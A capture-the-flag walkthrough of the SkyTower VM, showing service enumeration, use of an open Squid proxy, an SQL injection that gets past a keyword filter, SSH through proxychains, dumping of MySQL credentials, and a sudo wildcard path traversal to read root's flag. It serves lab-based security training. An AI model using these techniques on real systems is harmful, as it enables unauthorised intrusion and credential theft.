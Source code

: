# Description
This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town). The aim is to test intermediate to advanced security enthusiasts in their ability to attack a system using a multi-faceted approach and obtain the "flag".

You will require skills across different facets of system and application vulnerabilities, as well as an understanding of various services and how to attack them. Most of all, your logical thinking and methodical approach to penetration testing will come into play to allow you to successfully attack this system. Try different variations and approaches. You will most likely find that automated tools will not assist you.

We encourage you to try it our for yourself first, give yourself plenty of time and then only revert to the Walkthroughs below.

Enjoy!

Telspace Systems

@telspacesystems

# Write-up

This is a quite old VM by now, so I focused on finding the intended solution and avoid using any vulnerability found since it was created.
Started by enumerating the target with nmap, first just checking for open ports and filtering it down from there:
```
$ nmap -n 10.0.2.6
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
```
So SSH is filtered, it's likely hosting a webpage, and we have squid proxy running on the system. From this, I can further enumerate the system:
```
$ nmap -sC -sV -T5 10.0.2.6 -p 22,80,3128
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Debian)
3128/tcp open     http-proxy Squid http proxy 3.1.20
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported: GET HEAD
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.1.20
```
So this tells us that we have a potentially open proxy, something important to keep in mind later on. Meanwhile, took a look at the webpage to see what it is serving, and it looks like a simple login page.
![](./Images/skytower_page.png)

Source code didn't turn out anything useful, and just testing a random username:password takes us to `/login.php` with message `login failed`.
Decided to quickly fuzz for common Apache and PHP files/folders with ffuf
```
$ ffuf -u http://<ip>/FUZZ -w ~/SecLists/Discovery/Web-Content/Apache.fuzz.txt         

.htpasswd               [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 2ms]
.htaccess               [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 4ms]
index.html              [Status: 200, Size: 1136, Words: 176, Lines: 34, Duration: 10ms]
server-status           [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 13ms]
.htaccess.bak           [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 14ms]
```
```
$ ffuf -u http://<ip>/FUZZ -w ~/SecLists/Discovery/Web-Content/Common-PHP-Filenames.txt

login.php               [Status: 200, Size: 21, Words: 2, Lines: 1, Duration: 477ms]
```
Nothing too interesting on the PHP side, but a couple of good hits on the apache scan. Of course trying to get any of these is met with a `403 - Forbidden`, so focused my attention on the potentially open proxy that nmap found.
Using a simple curl command:
```
curl --proxy http://<ip>:3128 http://localhost/server-status
```
Displays the apache server status log, so this confirms we have an open proxy. Testing any `.hta*` file didn't get any success, and the server status log will only show our own connections so it's of limited use.
At this point decided to use `https://github.com/aancw/spose` to scan for open ports behind the squid proxy:
```
$ python spose.py --proxy http://<ip>:3128 --target localhost 
localhost 22 seems OPEN 
localhost 80 seems OPEN 
```
So we now have a way to get to the SSH port, but no users to do anything with it yet. Focusing my attention back on the previous login page, decided to test for potential SQL injections on the login forms and hit an SQL error while using a `'`. Injecting `username= a'` we get:
```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'a'' at line 1]
```

Testing with multiple SQLi's I found that multiple keywords are filtered out, so can't use `"SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT"` and eventually got a hit using `'||1#`. This landed me on: 
![](./Images/skytower_user.png)


So now we have user credentials `john:hereisjohn` and can use the open proxy to SSH into the system.
Used proxychains to make this easier:
```
$ proxychains ssh john@localhost            
john@localhost's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov 21 12:02:41 2023 from localhost

Funds have been withdrawn
Connection to localhost closed.
```
The connection is getting closed, but this can be bypassed by removing .bashrc:
```
$ proxychains ssh john@localhost '/bin/bash'
rm .bashrc
```
We already had a shell with the command above, but SSH is much nicer to use.
First thing was to go back to the webroot and see if there was anything else I could use from there. Looking into the `login.php` file we find:
```
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

if($db->connect_errno > 0){
    die('Unable to connect to database [' . $db->connect_error . ']');

}

$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);

```
So this validates the previous finds about filtered keywords, and also provides mysql credentials and a database to look into:
```
john@SkyTower:~$ mysql -uroot -proot

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+

mysql> use SkyTech;
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```
So now we have 3 users and credentials
```
john:hereisjohn
sara:ihatethisjob
william:senseable
```
Further enumeration from John's context didn't turn out anything useful, so moved on to the other users.
SSH'ing with Sara, and enumeration showed that this user can run a few commands with sudo:
```
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
Given that using `*` in this way is insecure, this allows us to list the target `flag.txt` file in root using:
```
sara@SkyTower:~$ sudo ls /accounts/../root/
flag.txt
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is <password>
sara@SkyTower:~$ 
```